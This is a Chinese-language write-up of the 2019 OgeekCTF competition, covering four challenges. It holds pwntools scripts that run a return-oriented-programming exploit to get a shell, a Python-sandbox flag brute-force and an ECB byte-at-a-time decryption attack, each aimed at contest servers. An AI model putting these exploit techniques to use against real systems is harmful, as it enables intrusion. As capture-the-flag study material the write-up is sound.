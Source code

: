 ```yaml
---
layout: post
title:  "OgeekCTF-Writeup"
date:   2019-8-26
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF]
icon: icon-html
---
```


# OgeekCTF-Writeup

* ### babyrop

  进入白给函数之后rop基本操作就完事了

  ```python
  from pwn import *
  
  puts_plt = 0x08048548
  puts_got = 0x08049FD4
  write_plt  = 0x8048578
  write_got = 0x8049FEC
  context.log_level = 'debug'
  libc = ELF('./libc-2.23.so')
  k = True
  write_libc = 0xf7ed9b70
  offset  = libc.symbols['write']
  p = remote('47.112.137.238',13337)
  payload1 = '\x00'*7+p64(0xff)
  p.sendline(payload1)
  print p.recv()
  payload2 = 'a'*0xe7+p32(0x1111)+p32(write_plt)+p32(0x08048825)+p32(1)+p32(write_got)+p32(10)
  print hex(len(payload2))
  p.send(payload2)
  write_libc = u32(p.recv()[0:4])
  
  log.success("Write_libc:"+hex(write_libc))
  log.success("write_offset:"+hex(offset))
  libc.address = write_libc-offset
  
  log.success("libc:"+hex(libc.address))
  log.success('system:'+hex(libc.symbols['system']))
  
  p.sendline(payload1)
  print p.recv()
  payload3 = 'a'*0xe7+p32(1111)+p32(libc.address+0x3a80c)+p32(0)*20
  p.sendline(payload3)
  
  p.interactive()
  
  
  
  ```

* ### PyBox

  * #### 非预期解

    ```python
    from pwn import *
    import string 
    chars = '{}_'+string.letters+string.digits 
    r = remote('47.112.108.17',12312)
    
    '''
    >>>f = open('/home/flag')
    >>>a = f.read()
    >>>if a[0]=='f':fuck
    try again !XD
    >>>if a[0]=='n':fuck
    '''
    flag = 'flag{'
    index = len(flag)-1
    r.sendline("f = open('/home/flag')")
    r.sendline("a = f.read()")
    r.interactive()
    while '}' not in flag:
    	for i in chars:
    		payload = 'if a[{}]==\'{}\':fuck'.format(str(index),i)
    		log.info(payload)
    		r.sendline(payload)
    		nmsl = r.recvuntil('XD',timeout=3)
    		if 'try again' in nmsl:
    			flag += i
    			log.success(flag)
    			index += 1
    			break
    r.interactive()
    
    ```

* ### 2019

  zsteg找到一串base64，解码得到一串base85，解码得到flag

* ### Babycry

  输入十六个相同字符发现密文前两个块相同，应该是ECB

  先试出来flag的长度

  根据hint，明文会被`_`填充为8的倍数，那么从1开始增加输入字符的数量，直到密文长度发生变化，即填满了一个长度为8的块后又多了一个块，就可以得到flag长度

  然后从后往前爆破flag最后八位。如爆破最后一位，把最后一位挤到一个新的块，即`}_______`，密文的最后一个块就是`}_______`的密文，再明文开头输入`*_______`，爆破*，直到密文第一个块与密文最后一个块相同，就得到了flag的最后一位。以此类推，得到flag。

  

  ```python
  from pwn import *
  import string
  chars = '{}_'+string.digits + string.letters
  r = remote('139.9.222.76',19999)
  
  def dec(plain):
  	r.recvuntil('>')
  	r.sendline('des '+ plain)
  	return r.recvline().strip()
  
  flag_len = 46
  padding_len = 2
  
  flag_ass =''
  while True:
  	block_padding_len = 7
  	fuck_len = 1
  	for i in chars:
  		log.info(i)
  		padding = (block_padding_len+padding_len+fuck_len)*'_' 
  		payload = i + flag_ass + padding
  		fuck = dec(payload)
  		if fuck[0:16] == fuck[-16:]:
  			flag_ass = i + flag_ass
  			log.success(flag_ass)
  			break
  	block_padding_len -= 1
  	fuck_len += 1
  	
  index1 = -32
  index2 = -16
  while True:
  	if len(flag_ass) != 8 and len(flag_ass) % 8 == 0:
  		index1 -= 16
  		index2 -= 16
  		print(index1,index2)
  	for i in chars:
  		log.info(i)
  		padding = padding_len*'_' 
  		payload = i + flag_ass + padding
  		fuck = dec(payload)
  		if fuck[0:16] == fuck[index1:index2]:
  			flag_ass = i + flag_ass
  			log.success(flag_ass)
  			break
  	if 'flag' in flag_ass:
  		log.success(flag_ass)
  		break
  r.interactive()
  ```

  

